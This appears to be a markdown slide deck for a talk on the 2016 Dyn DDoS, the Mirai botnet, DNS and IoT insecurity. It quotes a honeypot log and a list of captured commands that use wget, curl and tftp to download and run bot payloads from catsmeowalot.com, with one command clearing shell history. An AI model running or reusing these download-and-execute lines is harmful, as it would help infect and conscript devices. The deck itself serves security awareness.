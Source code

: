 #HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

![Error](media/DNS_no_response.png)

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#VSLIDE

# Key Findings:

* The Friday October 21, 2016 attack has been analyzed as a complex & sophisticated attack, using maliciously targeted, masked TCP and UDP traffic over port 53.
* Dyn confirms Mirai botnet as primary source of malicious attack traffic.
* Attack generated compounding recursive DNS retry traffic, further exacerbating its impact.

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network
![Dyn network](media/dyn-network-map.png)

#HSLIDE

Mirai ..

#VSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE

## How businesses see IoT ..

![MS](media/business_iot.png)

#VSLIDE

## How hackers see IoT ..

![IPCAM](media/1458871382569824928.jpg)

#HSLIDE

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O
http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com 
-c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
</pre>

#HSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
</pre>

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

